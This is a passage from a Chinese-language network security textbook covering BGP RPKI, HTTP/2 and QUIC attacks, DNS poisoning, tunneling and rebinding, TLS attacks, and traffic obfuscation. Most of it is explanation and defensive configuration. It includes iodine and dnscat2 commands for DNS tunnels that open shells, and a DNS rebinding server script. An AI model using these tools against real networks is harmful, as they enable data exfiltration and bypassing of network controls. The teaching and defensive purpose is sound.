curl -s "https://stat.ripe.net/data/rpki-validation/data.json?resource=AS13335&prefix=1.1.1.0/24" | jq '.data.validating_roas'

# bird2 路由守护进程配置 RPKI 验证
# /etc/bird/rpki.conf
# roa4 table rpki_table;
# protocol rpki rpki_server {
#     roa4 { table rpki_table; };
#     remote "rtr.rpki.cloudflare.com" port 8282;
#     refresh 600;
#     retry 300;
#     expire 7200;
# }
```

**BGPsec**：

BGPsec（RFC 8205）为 BGP UPDATE 消息提供路径级签名验证，确保 AS-PATH 中每个 AS 都确实转发了该路由。相比 RPKI 只验证源 AS，BGPsec 验证整条路径，但部署成本高、性能开销大，目前尚未广泛部署。

### 10.5 HTTP/2 与 HTTP/3 安全分析

HTTP/2（RFC 7540, 2015）和 HTTP/3（RFC 9114, 2022）引入了多路复用、头部压缩、服务器推送等新特性，同时也带来了全新的攻击面。

#### 10.5.1 HTTP/2 协议攻击

**HPACK 炸弹（Decompression Bomb）**：

HTTP/2 使用 HPACK（RFC 7541）进行头部压缩。攻击者可以构造特殊的头部数据，使解压后的数据远大于压缩数据，导致服务器内存耗尽。

```python
#!/usr/bin/env python3
"""
hpack_bomb_demo.py - HPACK 解压炸弹概念演示
说明：HPACK 使用霍夫曼编码和静态表压缩头部
攻击者可以构造引用相同表项的头部，导致解压后指数膨胀
"""

# HPACK 静态表中的一些高价值条目
# 攻击者可以让多个头部字段引用同一个长字符串表项
# 或者在动态表中注入长字符串，后续头部反复引用

def create_hpack_bomb_concept():
    """
    概念演示：HPACK 炸弹的工作原理
    
    正常头部: :authority: www.example.com (22 字节)
    压缩后: 1 字节（索引引用）
    
    攻击构造:
    1. 在动态表中插入一个 8KB 的头部值
    2. 后续 1000 个头部都引用同一个表项
    3. 传输: ~1000 字节
    4. 解压: ~8MB
    5. 膨胀比: 8000:1
    """
    print("HPACK 炸弹原理:")
    print("  压缩数据: ~1KB")
    print("  解压后: ~8MB")
    print("  膨胀比: 8000:1")
    print()
    print("实际 CVE:")
    print("  CVE-2019-9511: 数据泄洪 (Data Dribble)")
    print("  CVE-2019-9513: 资源循环 (Resource Loop)")
    print("  CVE-2019-9516: 0-Length Headers Leak")

create_hpack_bomb_concept()
```

**HTTP/2 快速重置攻击（Rapid Reset, CVE-2023-44487）**：

2023 年 10 月，一种针对 HTTP/2 的新型 DDoS 攻击被公开披露。攻击者发起大量 HTTP/2 请求后立即发送 RST_STREAM 帧取消请求，但服务器在取消前已经消耗了处理资源。通过高速循环"请求-重置"，服务器的并发处理能力被耗尽。

该攻击影响了几乎所有主流 HTTP/2 实现（Nginx、Apache、Envoy、Go net/http 等），峰值攻击流量达到 **3.98 亿请求/秒**（由 Cloudflare 观测）。



**防御措施**：

```nginx
# Nginx 防御 HTTP/2 攻击的配置
http {
    # 限制单连接并发流数（默认无限制）
    http2_max_concurrent_streams 128;
    
    # 限制单连接最大并发推送数
    http2_max_concurrent_pushes 10;
    
    # 限制 HEADERS 帧大小
    http2_max_field_size 4k;
    
    # 限制单连接请求数（防 Rapid Reset）
    limit_conn_zone $binary_remote_addr zone=conn:10m;
    limit_conn conn 100;
    
    # 请求速率限制
    limit_req_zone $binary_remote_addr zone=req:10m rate=100r/s;
    limit_req zone=req burst=200 nodelay;
}
```

```go
// Go HTTP/2 服务器安全配置
package main

import (
    "crypto/tls"
    "net/http"
    "time"
)

func main() {
    server := &http.Server{
        Addr:    ":443",
        Handler: myHandler,
        // 限制读写超时，防 Slowloris 类攻击
        ReadTimeout:  10 * time.Second,
        WriteTimeout: 30 * time.Second,
        IdleTimeout:  120 * time.Second,
        // 限制最大请求体大小
        MaxHeaderBytes: 1 << 20, // 1MB
    }
    
    // 配置 TLS
    tlsConfig := &tls.Config{
        MinVersion: tls.VersionTLS12,
    }
    server.TLSConfig = tlsConfig
    server.ListenAndServeTLS("cert.pem", "key.pem")
}
```

#### 10.5.2 HTTP/3（QUIC）安全分析

QUIC（RFC 9000）基于 UDP，内置 TLS 1.3 加密，解决了 TCP+TLS 的队头阻塞问题。但作为新协议，它的攻击面也有所不同。

**QUIC 特有的安全问题**：

| 问题 | 原理 | 影响 | 缓解措施 |
|------|------|------|---------|
| 0-RTT 重放攻击 | QUIC 0-RTT 数据无重放保护 | 重放请求（如重复扣款） | 服务器端实现幂等性检查，限制 0-RTT 窗口 |
| 连接 ID 枚举 | 猜测连接 ID 探测活跃连接 | 信息泄露 | 使用随机化的连接 ID |
| UDP 放大反射 | QUIC 初始包可触发大响应 | DDoS 放大 | 限速 + 地址验证令牌 |
| 协议混淆 | QUIC 流量与普通 UDP 难以区分 | 防火墙绕过 | 机器学习流量分类 |
| 连接迁移滥用 | 攻击者通过连接迁移切换 IP | 绕过基于 IP 的安全策略 | 验证迁移令牌 |

```bash
# 使用 Wireshark 抓取 QUIC 流量
# QUIC 使用 UDP 443 端口
tshark -i eth0 -f "udp port 443" -Y "quic" -V

# 如果有 TLS 1.3 密钥日志（SSLKEYLOGFILE）
tshark -i eth0 -f "udp port 443" \
    -o "tls.keylog_file:/path/to/sslkeys.log" \
    -Y "quic" -V

# 使用 quic-go 测试工具检测 QUIC 服务器
# https://github.com/quic-go/quic-go
```

### 10.6 DNS 安全深度分析

DNS 是互联网最重要的基础服务之一，也是攻击面最广的协议之一。DNS 设计于 1983 年（RFC 882/883），同样缺乏内置的安全机制。

#### 10.6.1 DNS 缓存投毒攻击

DNS 缓存投毒（Cache Poisoning）通过向 DNS 解析器注入伪造的解析记录，将用户重定向到恶意服务器。

**Kaminsky 攻击（CVE-2008-1447）详解**：

2008 年 Dan Kaminsky 公开了一种高效的 DNS 缓存投毒方法。传统攻击需要等待 TTL 过期后重新投毒，Kaminsky 攻击通过查询随机子域名，每次都能尝试新的投毒。



**攻击关键参数**：

要成功实施 Kaminsky 攻击，攻击者需要在合法响应到达之前发送伪造响应。伪造响应必须匹配：

- **事务 ID**（16 位）：65536 种可能
- **源端口**（16 位）：如果未随机化，可能只有 1 种
- **目的 IP 和端口**：可从查询包中获取

如果源端口和事务 ID 都随机化，攻击者需要约 2^32 次尝试，在合法响应到达前（通常 50-200ms）几乎不可能成功。但如果源端口未随机化（旧系统），仅需 2^16 次尝试，在几秒内即可成功。

**DNSSEC 防御**：

DNSSEC（DNS Security Extensions, RFC 4033-4035）通过数字签名验证 DNS 响应的完整性和真实性。



```bash
# 验证 DNSSEC 签名
dig +dnssec example.com A

# 输出示例：
# ;; ANSWER SECTION:
# example.com.    86400   IN  A       93.184.216.34
# example.com.    86400   IN  RRSIG   A 13 2 86400 (
#                 20240101000000 20231201000000
#                 12345 example.com.
#                 abcdef1234567890... )

# 检查 DNSSEC 链完整性
dig +dnssec +multi example.com DNSKEY
dsfromdns -n example.com  # 生成 DS 记录用于上层域验证

# 使用 delv 工具验证 DNSSEC
delv @8.8.8.8 example.com A +rtrace
```

#### 10.6.2 DNS 隧道攻击

DNS 隧道利用 DNS 协议的查询/响应机制传输任意数据，是数据外泄和 C2 通信的常用手段。由于大多数网络允许 DNS 流量通过（端口 53），DNS 隧道可以绕过很多防火墙限制。

**DNS 隧道工作原理**：



**主流 DNS 隧道工具对比**：

| 工具 | 语言 | 编码方式 | 特点 | 检测难度 |
|------|------|---------|------|---------|
| iodine | C | Base32/Base64/Base128 | 成熟稳定，支持 Windows | 中 |
| dnscat2 | Ruby | Hex 编码 | 功能丰富，支持多会话 | 中 |
| dns2tcp | C | TCP over DNS | 轻量级 | 中 |
| Cobalt Strike DNS Beacon | Java | 自定义 | 商业 C2 框架内置 | 高 |
| DNSExfiltrator | PowerShell | Base64 | 针对 Windows 环境 | 高 |

```bash
# 使用 iodine 建立 DNS 隧道
# 服务端（控制 DNS 服务器）
iodined -f -c -P password 10.0.0.1 tunnel.example.com

# 客户端（受限网络内）
iodine -f -P password tunnel.example.com
# 建立后获得 tun0 接口，IP 为 10.0.0.2

# 使用 dnscat2
# 服务端
ruby dnscat2.rb --dns domain=example.com --secret=shared_secret

# 客户端
./dnscat2 --dns server=ns.example.com,secret=shared_secret
# 建立后获得 shell、文件传输等能力
```

**DNS 隧道检测**：

```python
#!/usr/bin/env python3
"""
dns_tunnel_detector.py - 基于统计特征的 DNS 隧道检测
"""
import collections
import math

def entropy(s):
    """计算字符串的香农熵"""
    if not s:
        return 0
    freq = collections.Counter(s)
    length = len(s)
    return -sum(
        (count / length) * math.log2(count / length)
        for count in freq.values()
    )

def detect_dns_tunnel(dns_queries, threshold=3.5):
    """
    检测 DNS 隧道的统计特征
    
    正常域名: example.com → 熵约 2.5-3.0
    隧道编码: aGVsbG8gd29ybGQ.evil.com → 熵约 3.5-4.5
    
    检测维度:
    1. 子域名长度: 正常 < 20, 隧道 > 50
    2. 子域名熵值: 正常 < 3.0, 隧道 > 3.5
    3. 查询频率: 正常 < 10/min, 隧道 > 100/min
    4. TXT 记录比例: 正常 < 5%, 隧道 > 30%
    5. 单域名查询数: 正常 < 10/session, 隧道 > 1000/session
    """
    alerts = []
    
    # 按域名分组统计
    domain_stats = collections.defaultdict(lambda: {
        'count': 0, 'query_lengths': [], 'txt_count': 0
    })
    
    for query in dns_queries:
        domain = query['name']
        base_domain = '.'.join(domain.split('.')[-2:])
        subdomain = '.'.join(domain.split('.')[:-2])
        
        stats = domain_stats[base_domain]
        stats['count'] += 1
        stats['query_lengths'].append(len(subdomain))
        if query.get('type') == 'TXT':
            stats['txt_count'] += 1
    
    for domain, stats in domain_stats.items():
        reasons = []
        
        # 检查子域名长度
        avg_len = sum(stats['query_lengths']) / len(stats['query_lengths'])
        if avg_len > 50:
            reasons.append(f"平均子域名长度异常: {avg_len:.0f}")
        
        # 检查查询频率
        if stats['count'] > 1000:
            reasons.append(f"查询频率异常: {stats['count']}次")
        
        # 检查 TXT 记录比例
        txt_ratio = stats['txt_count'] / max(stats['count'], 1)
        if txt_ratio > 0.3:
            reasons.append(f"TXT记录比例异常: {txt_ratio:.1%}")
        
        # 检查子域名熵值
        for qlen in stats['query_lengths'][:100]:  # 采样检查
            if qlen > 30:
                # 从完整域名提取子域名进行熵计算
                reasons.append("子域名编码特征异常")
                break
        
        if len(reasons) >= 2:
            alerts.append({
                'domain': domain,
                'query_count': stats['count'],
                'reasons': reasons,
                'severity': 'HIGH' if len(reasons) >= 3 else 'MEDIUM'
            })
    
    return alerts

# 使用示例
sample_queries = [
    {'name': 'aGVsbG8gd29ybGQ.evil.com', 'type': 'A'},
    {'name': 'd29ybGQgaGVsbG8.evil.com', 'type': 'A'},
    {'name': 'aHR0cHM6Ly9ldmls.evil.com', 'type': 'TXT'},
    {'name': 'www.example.com', 'type': 'A'},
]

alerts = detect_dns_tunnel(sample_queries)
for alert in alerts:
    print(f"[{alert['severity']}] 可疑DNS隧道: {alert['domain']}")
    for reason in alert['reasons']:
        print(f"  - {reason}")
```

#### 10.6.3 DNS 重绑定攻击

DNS 重绑定（DNS Rebinding）是一种绕过同源策略的攻击技术。攻击者控制的域名先解析到攻击者服务器（通过第一次查询），然后快速将 DNS 记录切换为内网 IP（如 127.0.0.1），使浏览器在同一个域下访问内网资源。

```python
#!/usr/bin/env python3
"""
dns_rebind_server.py - DNS 重绑定攻击概念演示
配合 HTTP 服务器使用
"""
import socket
import struct
import threading

class DNSRebindServer:
    """
    DNS 重绑定服务器
    第一次查询返回攻击者 IP，后续查询返回内网 IP
    """
    def __init__(self, listen_ip='0.0.0.0', listen_port=53):
        self.listen_ip = listen_ip
        self.listen_port = listen_port
        self.query_count = {}  # 记录每个域名的查询次数
    
    def get_response_ip(self, domain):
        """交替返回不同 IP 实现重绑定"""
        count = self.query_count.get(domain, 0)
        self.query_count[domain] = count + 1
        
        if count == 0:
            # 第一次：返回攻击者服务器 IP（加载恶意 JS）
            return '203.0.113.1'  # 攻击者 IP
        else:
            # 后续：返回内网目标 IP
            return '127.0.0.1'   # 内网目标
    
    def handle_query(self, data, addr, sock):
        """处理 DNS 查询"""
        # 简化解析：提取域名
        # 实际实现需要完整的 DNS 协议解析
        domain = 'evil.rebind.com'  # 简化示例
        
        response_ip = self.get_response_ip(domain)
        print(f"[DNS] {addr[0]} 查询 {domain} → {response_ip}")
        
        # 构造 DNS 响应（简化）
        # 实际实现需要构造完整的 DNS 响应报文
        response = self.build_dns_response(data, response_ip)
        sock.sendto(response, addr)
    
    def build_dns_response(self, query_data, ip):
        """构造 DNS 响应报文"""
        # 简化实现：复制事务 ID，添加响应
        response = bytearray(query_data)
        # 设置 QR 位（响应）
        response[2] = 0x81
        response[3] = 0x80
        # 添加 Answer 记录
        answer = b'\xc0\x0c'  # 域名指针
        answer += struct.pack('>HHIH', 1, 1, 300, 4)  # A 记录, TTL=300
        answer += socket.inet_aton(ip)
        response += answer
        return bytes(response)
    
    def start(self):
        sock = socket.socket(socket.AF_INET, socket.SOCKET_DGRAM)
        sock.bind((self.listen_ip, self.listen_port))
        print(f"[*] DNS 重绑定服务器启动于 {self.listen_ip}:{self.listen_port}")
        
        while True:
            data, addr = sock.recvfrom(512)
            threading.Thread(
                target=self.handle_query,
                args=(data, addr, sock)
            ).start()

# DNS 重绑定防御:
# 1. 浏览器层面: DNS pinning（Chrome 默认 DNS 缓存 1-2 分钟）
# 2. 应用层面: 检查 Host 头是否匹配预期域名
# 3. 网络层面: 阻止内网 IP 的 DNS 响应从外网进入
```

### 10.7 TLS/SSL 协议安全分析

TLS（Transport Layer Security）是保护互联网通信加密的核心协议。从 SSL 2.0 到 TLS 1.3，每一次版本迭代都修复了严重的安全漏洞。

#### 10.7.1 TLS 版本与安全演进

| 版本 | 年份 | 状态 | 主要安全问题 |
|------|------|------|-------------|
| SSL 2.0 | 1995 | **已废弃** | 无握手完整性保护、弱加密、MAC 不覆盖头部 |
| SSL 3.0 | 1996 | **已废弃** | POODLE 攻击（CVE-2014-3566）、CBC 填充预言 |
| TLS 1.0 | 1999 | **已废弃** | BEAST 攻击、CBC IV 为上一条记录的最后一个块 |
| TLS 1.1 | 2006 | **已废弃** | 无 AEAD 支持、依赖 CBC 模式 |
| TLS 1.2 | 2008 | **安全（需正确配置）** | 支持 AEAD，但保留了不安全的密码套件选项 |
| TLS 1.3 | 2018 | **推荐** | 移除所有不安全算法、1-RTT 握手、0-RTT 有重放风险 |

#### 10.7.2 TLS 握手攻击

**降级攻击（Downgrade Attack）**：

攻击者在 TLS 握手过程中篡改 Client Hello 或 Server Hello，迫使双方使用更弱的协议版本或密码套件。



**TLS 1.3 的降级保护**：

TLS 1.3 在 ServerHello 的 `random` 字段的最后 8 字节嵌入降级标记。如果服务器发现自己被降级到 TLS 1.2 或更低版本，会在 random 中填充特定值。客户端验证这个标记，发现不匹配则中止握手。

```bash
# 使用 OpenSSL 检测服务器 TLS 版本支持
openssl s_client -connect example.com:443 -tls1_2 </dev/null 2>/dev/null | grep "Protocol"
openssl s_client -connect example.com:443 -tls1_3 </dev/null 2>/dev/null | grep "Protocol"

# 检测支持的密码套件
nmap --script ssl-enum-ciphers -p 443 example.com

# 使用 testssl.sh 全面检测 TLS 配置
git clone https://github.com/drwetter/testssl.sh.git
cd testssl.sh
./testssl.sh --full example.com:443

# 检测特定漏洞
# Heartbleed (CVE-2014-0160)
nmap --script ssl-heartbleed -p 443 example.com

# ROBOT 攻击 (CVE-2017-13099)
python3 robot-detect.py example.com 443

# CRIME 攻击检测
openssl s_client -connect example.com:443 -tls1 </dev/null 2>&1 | grep "Compression"
```

#### 10.7.3 TLS 证书攻击

**证书伪造与 CA 攻击**：

证书信任体系的安全依赖于 CA（Certificate Authority）的可靠性。历史上多次发生 CA 被入侵或滥发证书的事件：

- **2011 年 DigiNotar 事件**：荷兰 CA DigiNotar 被入侵，攻击者签发了包括 `*.google.com` 在内的 500+ 张伪造证书，用于伊朗政府的中间人攻击
- **2015 年 CNNIC 事件**：中国互联网络信息中心（CNNIC）的中间 CA 签发了 Google 域名的伪造证书
- **2019 年 Let's Encrypt 漏洞**：CAA 检查绕过漏洞（CVE-2020-0698），可能签发未授权的证书

```bash
# 证书透明度（Certificate Transparency）查询
# 查询某个域名签发过的所有证书
curl -s "https://crt.sh/?q=example.com&output=json" | jq '.[] | .issuer_name, .not_before, .not_after'

# 使用 certbot 管理证书
certbot certificates  # 查看已管理的证书

# 验证证书链完整性
openssl s_client -connect example.com:443 -showcerts </dev/null 2>/dev/null | \
    openssl x509 -text -noout | grep -E "Issuer|Subject|Not Before|Not After"

# 检测证书是否被吊销（OCSP）
openssl s_client -connect example.com:443 -status </dev/null 2>/dev/null | grep -A 5 "OCSP"

# CAA 记录查询（限制哪些 CA 可以为域名签发证书）
dig example.com CAA +short
# 输出示例: 0 issue "letsencrypt.org"
```

**CAA（Certificate Authority Authorization）记录**：

通过 DNS CAA 记录指定允许为域名签发证书的 CA，防止未授权的 CA 签发证书。

```dns
; example.com 的 CAA 记录
example.com.  IN  CAA  0 issue "letsencrypt.org"          ; 允许签发
example.com.  IN  CAA  0 issuewild "letsencrypt.org"      ; 允许签发通配符
example.com.  IN  CAA  0 iodef "mailto:security@example.com"  ; 违规通知
```

### 10.8 协议混淆与规避技术

安全检测设备（IDS/IPS、防火墙、DPI）通过分析协议特征来识别和过滤恶意流量。攻击者使用协议混淆技术绕过这些检测，这也是红队测试和对抗审查的核心技术领域。

#### 10.8.1 协议混淆技术分类

| 技术 | 原理 | 示例 | 检测方法 |
|------|------|------|---------|
| **端口复用** | 将非标准流量通过常见端口传输 | SSH over 443、C2 over 80 | 协议特征分析（端口与协议不匹配） |
| **协议封装** | 将一种协议封装在另一种协议中 | DNS-over-HTTPS (DoH)、HTTP over WebSocket | 深度包检测（DPI） |
| **流量伪装** | 使恶意流量的统计特征与合法流量一致 | C2 流量伪装成 HTTPS 浏览行为 | 机器学习流量分类 |
| **加密混淆** | 使用标准 TLS 但自定义内部协议 | 自定义 TLS 应用层协议 | JA3/JA3S 指纹检测 |
| **域前置（Domain Fronting）** | TLS SNI 使用允许的域名，HTTP Host 使用实际域名 | CDN 上的域前置 | CDN 厂商主动封堵 |
| **流量填充** | 添加随机数据使流量模式均匀 | 混淆网关（如 obfs4） | 统计分析 |

#### 10.8.2 域前置（Domain Fronting）

域前置是一种利用 CDN 架构绕过网络审查的技术。TLS 握手时 SNI 字段使用一个"干净"的域名（如 `www.google.com`），但 HTTP Host 头指向实际要访问的被封锁域名。CDN 根据 Host 头路由请求，而非 SNI。



> **注意**：Google 和 Amazon 等主要 CDN 厂商已陆续禁止域前置（2018 年起），因为该技术也被滥用于恶意 C2 通信。

#### 10.8.3 常见混淆工具

**obfs4（Tor 混淆传输）**：

obfs4 是 Tor 项目开发的流量混淆协议，使 Tor 流量看起来像随机数据，不具有可识别的协议特征。

```bash
# 安装 obfs4proxy
sudo apt install obfs4proxy

# 配置 Tor 使用 obfs4 桥接
# /etc/tor/torrc
# UseBridges 1
# ClientTransportPlugin obfs4 exec /usr/bin/obfs4proxy
# Bridge obfs4 <IP>:<PORT> <FINGERPRINT> cert=<CERT> iat-mode=0

# 测试 obfs4 流量特征
# obfs4 流量在 DPI 中表现为无结构的随机字节流
# 没有可识别的协议握手模式
```

**Stunnel（TLS 封装）**：

```bash
# 使用 stunnel 将任意 TCP 流量封装在 TLS 中
# /etc/stunnel/stunnel.conf
# [ssh-over-tls]
# accept = 443
# connect = 127.0.0.1:22
# cert = /etc/stunnel/cert.pem
# key = /etc/stunnel/key.pem

# 客户端连接
stunnel -c -d 127.0.0.1:8443 -r <server>:443
ssh -p 8443 user@127.0.0.1
```

#### 10.8.4 流量分析检测

**JA3/JA3S 指纹**：

JA3 是 Salesforce 开源的 TLS 客户端指纹方法，通过 Client Hello 中的字段（TLS 版本、密码套件、扩展、椭圆曲线等）生成 MD5 指纹。不同应用程序的 TLS 栈有不同的 JA3 指纹，可用于识别恶意工具。

```python
#!/usr/bin/env python3
"""
ja3_fingerprint.py - JA3 指纹提取与检测
"""
import hashlib

def extract_ja3(client_hello):
    """
    从 TLS Client Hello 提取 JA3 指纹
    
    JA3 字段格式: TLSVersion,Ciphers,Extensions,EllipticCurves,EllipticCurvePointFormats
    各字段用逗号分隔，字段内用连字符分隔
    """
    # 示例：Chrome 的 Client Hello 解析
    tls_version = client_hello.get('tls_version', '771')  # 0x0303 = TLS 1.2
    
    # 密码套件列表（去掉 GREASE 值）
    ciphers = client_hello.get('cipher_suites', [])
    ciphers_str = '-'.join(str(c) for c in ciphers)
    
    # 扩展列表（去掉 GREASE 值和 SNI）
    extensions = client_hello.get('extensions', [])
    extensions_str = '-'.join(str(e) for e in extensions)
    
    # 椭圆曲线
    curves = client_hello.get('elliptic_curves', [])
